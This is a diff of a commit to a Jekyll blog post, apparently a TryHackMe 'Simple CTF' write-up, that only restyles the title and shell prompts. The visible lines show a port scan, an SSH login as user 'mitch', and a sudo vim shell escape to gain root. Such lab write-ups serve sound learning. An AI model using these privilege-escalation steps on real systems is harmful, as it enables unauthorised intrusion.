

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-09-01-SimpleCTF.md, in a window 1280 px wide and 900 px high. Shown: the part 141-399 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2025-09-01-SimpleCTF.md

```diff
--- a/_posts/2025-09-01-SimpleCTF.md
+++ b/_posts/2025-09-01-SimpleCTF.md
@@ -7,13 +7,13 @@
 ---
 
 # SIMPLE CTF
--TryHackMe WRITE-UP-
+-TRYHACKME CTF WRITEUP-
 
 
 Let's start by running a Nmap scan to enumerate all open ports with the -p- argument
 
 {% highlight bash %}
-:$ Nmap -p- <target_ip>
+$ Nmap -p- <target_ip>
 {% endhighlight bash %}
 
 
@@ -164,7 +164,7 @@
 Logging into an ssh session as mitch on port 2222
 We can see that the credentials are accepted
 {% highlight bash %}
-:$ ssh mitch@<ip> -p 2222
+$ ssh mitch@<ip> -p 2222
 {% endhighlight bash %}
 
 
@@ -203,7 +203,7 @@
 Lets look for ways to get root
 Running:
 {% highlight bash %}
-:$ sudo -l
+$ sudo -l
 {% endhighlight bash %}
 We see that VIM commands are allowed to be run as sudo
 
@@ -213,7 +213,7 @@
 
 Running the commnd:
 {% highlight bash %}
-:$ sudo vim -c ':!/bin/sh'
+$ sudo vim -c ':!/bin/sh'
 {% endhighlight bash %}
 We can see this command was accepted and we are now the root user
 
```
